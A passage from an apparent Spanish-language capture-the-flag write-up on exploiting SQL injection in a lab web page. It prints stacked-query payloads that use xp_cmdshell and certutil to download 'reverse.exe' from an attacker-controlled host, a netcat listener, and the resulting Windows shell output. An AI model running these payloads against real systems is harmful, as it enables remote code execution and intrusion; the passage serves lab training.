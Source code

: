 Ahora hacemos uso de la stacked query para llamar a `xp_cmdshell` y ejecutar `certutil.exe` en la víctima para descargar el payload con `reverse.exe`:

```sql
http://MACHINE_IP/giftresults.php?age='; EXEC xp_cmdshell 'certutil -urlcache -f http://YOUR.IP.ADDRESS.HERE:8000/reverse.exe C:\Windows\Temp\reverse.exe'; --
```

Luego de ejecutar la sentencia SQL podemos verificar si funcionó analizando la consola en la que tenemos el servidor de Python, veríamos algo así:

```shell
└─$ python3 -m http.server 8000 
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
MACHINE_IP - - [10/Dec/2023 14:20:59] "GET /reverse.exe HTTP/1.1" 200 -
```

Ahora bastaría con levantar un listener para que agarre a la shell en el puerto 4444 y luego hacer que la víctima ejecute `reverse.exe`. Para el listener vamos a hacer uso de la utilidad **netcat**, la cual nos permite leer desde y escribir hacia distintas conexiones.

```shell
nc -lnvp 4444
```

Para lograr que la víctima ejecute `reverse.exe`:

```sql
http://MACHINE_IP/giftresults.php?age='; EXEC xp_cmdshell 'C:\Windows\Temp\reverse.exe'; --
```

Volvemos a la terminal de netcat y verificamos, deberíamos ver algo así:

```shell
└─$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.10.10] from (UNKNOWN) [MACHINE_IP] 49730
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt service\mssql$sqlexpress
```

## Resolución

### Probando si la web es vulnerable

La página se ve de la siguiente manera:

![website](img/1.png)

Lo principal es buscar elementos con los cuales el usuario pueda interactuar para enviar información. Encontramos el siguiente formulario:

![website](img/2.png)
